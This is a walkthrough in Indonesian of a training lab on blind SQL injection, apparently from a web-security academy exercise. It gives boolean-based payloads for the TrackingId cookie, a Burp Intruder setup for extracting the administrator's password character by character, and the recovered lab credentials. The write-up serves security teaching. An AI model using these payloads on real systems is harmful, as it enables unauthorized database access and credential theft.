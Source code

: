 # Overview
web app vuln terhadap BlindSQLI. Apps menggunakan cookie tracking untuk analisis dan melakukan SQL query yang berisi value dari kode yang disubmit.

Hint:
- Jika SQL query tidak return apa-apa, dan terdapat error display, query kita salah.
- Jika SQL query return "Welcome Back" message, maka dapat dipastikan bahwa query payload kita berhasil.
- db berisi tabel `users` dengan kolom `username` dan `password`

Goal:
- cari creds untuk user `administrator`
- login dengan creds yang didapat.

# Analisis
Cek jika app vuln terhadap SQLI dengan `' and '1'='1` pada cookie `TrackingId`

cek apakah kita memiliki tabel `users`. gunakan `' and (select 'x' from users LIMIT 1)='x'--'`
- hasilnya true

cek apakah kita memiliki username `Administrator` di tabel `users`. gunakan `' and (select username from users where username='administrator')='administrator'--'`
- hasilnya `administrator` ada

lakukan enumerasi password pada user `administrator`. 
`' and (select password from users where username='administrator')='administrator'--'` **TIDAK DISARANKAN KARENA SAMA DENGAN BRUTE FORCE**
- daripada itu, gunakan proses enumerasi manual
	- gunakan query berikut untuk menghitung total panjang password `' and (select username from users where username='administrator' and length(password)>1)='administrator'--'`
	- hasilnya password length adalah 20
lakukan enumerasi string pada password dengna menggunakan query berikut
`' and (select substring(password,1,1) from users where username='administrator')='a'--`. Melakukan manual akan memakan banyak waktu, maka lakukan di burpsuite dengan tambahkan request ke intruder, lalu add simbol `§` di 2 bagian seperti berikut `' and (select substring(password,§1§,1) from users where username='administrator')='§a§'--`, selanjutnya atur payload 1 menjadi `Numbers` dengan tipe `Sequential` dari 1 sampai 20 dengan step 1 serta number format decimal dan lainnya kosong, lalu payload 2 menjadi `Brute forcer` dengan min length 1 dan max length 1, lalu start attack.
hasilnya adalah
```
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
a x i y r t i 3 p 8  j  b  q  x  1  2  t  9  y  b
```
selanjutnya kita bisa login dengan creds tersebut `administrator:axiyrti3p8jbqx12t9yb`

